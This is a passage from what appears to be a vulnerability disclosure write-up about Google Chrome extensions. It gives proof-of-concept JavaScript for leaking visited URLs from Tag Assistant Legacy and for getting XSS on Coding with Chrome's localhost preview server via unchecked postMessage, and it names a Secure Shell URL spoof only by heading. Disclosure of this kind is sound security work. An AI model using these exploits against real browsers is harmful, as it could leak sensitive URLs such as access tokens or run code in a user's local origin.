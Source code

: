 ```js
chrome.runtime.sendMessage(
  { message: "GetRecordedIssues", tabId: "<TabID>" },
  (a) => {
    console.log(a.statusInfos[0].page.url);
  },
);
```

### An alternative way (different report)

Change the JS execution context to the Tag Assistant Legacy's content script, and execute the following:

```js
let port = chrome.extension.connect({ name: "popup" });
port.onMessage.addListener((a) => {
  console.log(a.url);
});
port.postMessage({ message: "Status", tabId: "<TabID>" });
```

### Attack scenario

A compromised renderer can leak visited URLs, which may contain sensitive data, such as an access_token.

# XSS on 127.0.0.1:8090 (Accepted, Deprecated)

**URL:** <https://chrome.google.com/webstore/detail/coding-with-chrome/becloognjehhioodmnimnehjcibkloed>

For isolation the extension hosts user controlled code on localhost however it does not verify the sender of the messages or use a `null` origin.

```js
let x = window.open('http://127.0.0.1:8090/preview/untitled_phaser_blockly_file.html') window.addEventListener("message", a=> {     console.log(a.data)    x.postMessage({name: "__exec__", value:"alert(origin)"}, "*")     }) setTimeout(()=> x.postMessage({name: "__handshake__", value:"1307"}, "*"), 500)
```

### Attack scenario

An attacker controlled website can get XSS on localhost this maybe trusted by applications since it refers to the users local machine <https://datatracker.ietf.org/doc/html/draft-west-let-localhost-be-localhost-06>

# Limited URL Spoof via the Secure Shell extension (Partly Fixed, Not rewarded)

**URL:** <https://chrome.google.com/webstore/detail/secure-shell/iodihamcpbpeioajjeobimgagajmlibd>


[^0-0]: <https://chrome.google.com/webstore/detail/perfetto-ui/lfmkphfpdbjijhpomgecfikhfohaoine>
[^1-0]: <https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/extensions/api/debugger/debugger_api.cc;drc=3ecbe8e3eacb4ac62561e9e786e40e7e60eefd44;l=154>
[^0-1]: <https://chrome.google.com/webstore/detail/screen-reader/kgejglhpjiefppelpmljglcjbhoiplfn>
[^1-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/>
[^2-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=71;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^3-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=312;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^4-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_util.js;l=78;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^5-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/pdf_processor.js;l=138;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^0-2]: <https://chrome.google.com/webstore/detail/form-troubleshooter/lpjhcgjbicfdoijennopbjooigfipfjh>
[^1-2]: <https://github.com/GoogleChromeLabs/form-troubleshooter>
[^0-3]: <https://chrome.google.com/webstore/detail/secure-shell/iodihamcpbpeioajjeobimgagajmlibd>
[^1-3]: <https://chrome.google.com/webstore/detail/deprecated-secure-shell-a/pnhechapfaindjhompbnflcldabbghjo>